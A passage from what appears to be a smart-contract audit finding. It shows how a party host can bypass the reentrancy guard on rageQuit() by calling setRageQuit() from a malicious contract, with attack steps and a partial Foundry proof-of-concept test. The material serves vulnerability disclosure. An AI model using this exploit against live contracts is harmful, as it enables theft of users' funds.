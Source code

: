 This reentrancy guard can still be bypassed using `setRageQuit()`. If execution control is transferred to the attacker, then the attacker can call `setRageQuit()` to reset the value to anything greater than `block.timestamp`, allowing the reentrancy on the `rageQuit()` function. Note that this would require the attacker to be a party host or be in complicity with a party host.

The general scenario to trigger the reentrancy is as follows:

1.  User calls `rageQuit()`.
2.  ETH or ERC20 transfers control to the attacker. This can be in different forms:
    *   ETH transfers to contracts that invoke the `receive()` or `fallback()` function.
    *   Variations of the ERC20 tokens that have callbacks during transfers (e.g. ERC777)
    *   Poisoned ERC20 implementation that receives control during the `transfer()` call itself.
3.  Attacker resets the `rageQuitTimestamp` by calling `setRageQuit(block.timestamp + 1)`.
4.  Attacker reenters the `rageQuit()` function.

The issue can be exploited to disable the reentrancy guard in the `rageQuit()` function, leading to further attacks. We will explore a scenario of potential loss of funds in the next section.

### Proof of Concept

The following is an adaptation of the test `testRageQuit_cannotReenter()` present in the PartyGovernanceNFT.t.sol test suite, with minimal variations to enable the described attack.

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/9a9868c7c3f540811eff6853db14bfc6).

```solidity
function test_PartyGovernanceNFT_ReentrancyAttack() external {
   address alice = makeAddr("alice");
   address host = makeAddr("host");

   (Party party, , ) = partyAdmin.createParty(
      partyImpl,
      PartyAdmin.PartyCreationMinimalOptions({
            host1: address(this),
            host2: host,
            passThresholdBps: 5100,
            totalVotingPower: 100,
            preciousTokenAddress: address(toadz),
            preciousTokenId: 1,
            rageQuitTimestamp: 0,
            feeBps: 0,
            feeRecipient: payable(0)
      })
   );

   vm.prank(address(this));
   party.setRageQuit(uint40(block.timestamp) + 1);

   // Mint voting NFTs, alice and host have both 50%
   vm.prank(address(partyAdmin));
   uint256 aliceTokenId = party.mint(alice, 50, alice);
   vm.prank(address(partyAdmin));
   uint256 hostTokenId = party.mint(host, 50, host);

   // Host (attacker) deploys malicious ReenteringContract
   ReenteringContract reenteringContract = new ReenteringContract(party, hostTokenId, host);

   // Host sends his NFT to the contract
   vm.prank(host);
   party.transferFrom(host, address(reenteringContract), hostTokenId);

   // Host transfer host feature to contract
   vm.prank(host);
   party.abdicateHost(address(reenteringContract));

```